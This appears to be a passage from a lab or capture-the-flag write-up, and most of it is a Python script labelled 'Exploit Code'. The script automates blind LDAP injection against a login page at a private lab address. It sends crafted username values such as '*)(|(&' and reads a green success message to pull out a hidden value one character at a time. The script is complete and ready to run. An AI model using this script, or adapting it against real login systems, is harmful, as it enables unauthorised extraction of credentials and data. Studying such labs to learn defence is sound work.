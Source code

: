 ### Exploit Code

To automate the exfiltration of data in the previous task, you can use the Python script below:

```python
import requests
from bs4 import BeautifulSoup
import string
import time

# Base URL
url = 'http://10.201.60.17/blind.php'

# Define the character set
char_set = string.ascii_lowercase + string.ascii_uppercase + string.digits + "._!@#$%^&*()"

# Initialize variables
successful_response_found = True
successful_chars = ''

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

while successful_response_found:
    successful_response_found = False

    for char in char_set:
        #print(f"Trying password character: {char}")

        # Adjust data to target the password field
        data = {'username': f'{successful_chars}{char}*)(|(&','password': 'pwd)'}

        # Send POST request with headers
        response = requests.post(url, data=data, headers=headers)

        # Parse HTML content
        soup = BeautifulSoup(response.content, 'html.parser')

        # Adjust success criteria as needed
        paragraphs = soup.find_all('p', style='color: green;')

        if paragraphs:
            successful_response_found = True
            successful_chars += char
            print(f"Successful character found: {char}")
            break

    if not successful_response_found:
        print("No successful character found in this iteration.")

print(f"Final successful payload: {successful_chars}")
```
